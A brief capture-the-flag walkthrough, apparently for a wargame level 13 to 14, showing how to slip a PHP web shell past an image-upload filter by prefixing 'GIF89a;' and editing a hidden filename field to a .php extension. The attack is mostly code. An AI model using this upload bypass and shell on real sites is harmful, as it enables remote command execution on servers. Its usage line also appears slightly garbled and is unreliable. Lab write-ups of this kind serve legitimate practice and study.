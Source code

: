 # Level 13 -> Level 14  

add GIF89a; to the following shell script and upload it using same technique as the level before.  

```php
GIF89a;
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```

change html using inspect  

```html
<input type="hidden" name="filename" value="y4q7i7c3x3.php">
```

upload and then execute shell using /e?=<command>  


